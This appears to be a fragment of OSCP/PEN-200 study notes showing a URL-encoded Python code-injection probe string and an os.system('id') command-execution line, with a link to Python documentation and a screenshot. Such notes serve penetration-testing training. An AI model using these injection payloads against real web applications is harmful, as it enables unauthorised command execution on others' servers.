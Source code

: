 ```
`"%2bstr(True)%2b"test`
```

[Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/8db48e07-c8f3-46ef-8c76-00047fcb8400)
